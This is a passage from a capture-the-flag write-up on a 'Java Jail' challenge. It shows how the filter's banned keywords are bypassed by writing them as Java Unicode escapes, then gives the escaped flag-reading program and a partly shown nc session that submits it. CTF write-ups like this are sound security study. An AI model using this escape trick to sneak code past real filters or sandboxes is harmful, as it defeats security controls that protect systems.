 again we get to execute any java program but we have a list of banned words which must be avoided ( we will see how to tackle those in a while but for now let's make a sample program to print out the flag )

```java
import java.io.*;

class main {
    public static void main(String args[]) throws Exception {
            FileInputStream fis = new FileInputStream("./flag.txt");
            BufferedReader br = new BufferedReader(new InputStreamReader(fis));
            String line;
            while ((line = br.readLine()) != null) {
                System.out.println(line);
            }
            br.close();
    }
}
```

### Vulnerability

> A compiler for the Java programming language ("Java compiler") first recognizes Unicode escapes in its input, translating the ASCII characters `\u` followed by four hexadecimal digits to the UTF-16 code unit ([§3.1](https://docs.oracle.com/javase/specs/jls/se7/html/jls-3.html#jls-3.1 "3.1. Unicode")) of the indicated hexadecimal value, and passing all other characters unchanged.<br>
> ~ [Source](https://docs.oracle.com/javase/specs/jls/se7/html/jls-3.html)

Basically if we replace the `c` of `class` with `\u0063` in the source code and compile it again, we will see that it compiles without any error and prints the flag locally.

### Exploit

If we repeat the same for every banned word in the source code we get the following java code:

```java
\u0069mport java.io.*;

\u0063lass \u004dain \u007b
    public static void main(String args[]) throws Exception \u007b
      FileInputStream fis = new FileInputStream("./flag.txt");
      BufferedReader br = new BufferedReader(new InputStreamReader(fis));
      String line;
      while ((line = br.readLine()) != null) \u007b
          System.out.println(line);
      \u007d
      br.close();
    \u007d
\u007d
```

```console
$ nc chal.amt.rs 2103

      Welcome to the Java Jail.
      Have fun coding in Java!

Enter in your code below (will be written to Main.java), end with --EOF--

\u0069mport java.io.*;

\u0063lass \u004dain \u007b
    public static void main(String args[]) throws Exception \u007b
      FileInputStream fis = new FileInputStream("./flag.txt");
      BufferedReader br = new BufferedReader(new InputStreamReader(fis));
      String line;
      while ((line = br.readLine()) != null) \u007b
```